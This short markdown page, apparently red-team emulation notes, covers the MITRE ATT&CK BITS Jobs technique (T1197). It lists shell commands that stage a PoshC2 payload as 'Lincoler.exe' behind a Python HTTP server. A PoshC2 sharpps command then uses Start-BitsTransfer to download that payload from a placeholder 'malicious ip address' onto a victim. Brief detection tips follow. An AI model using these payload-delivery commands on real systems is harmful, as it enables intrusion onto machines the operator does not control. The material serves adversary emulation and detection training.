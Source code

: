 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```powershell
    mkdir /tmp/Abrodolph
    ```
    
    ```powershell
    cd /tmp/Abrodolph
    ```

    ```powershell
    cp /var/poshc2/<project name>/payloads/<payload name> Lincoler.exe
    ```

    ```powershell
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```powershell
    sharpps powershell.exe -c start-bitstransfer -source http://<malicious ip address>:12137/Lincoler.exe -destination <victim save location>
    ```
> **NOTE:** Requires your device to be connected to the internet or have a default gateway configured

---

## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
* Look for powershell or cmd running bits commands

---

## Resources    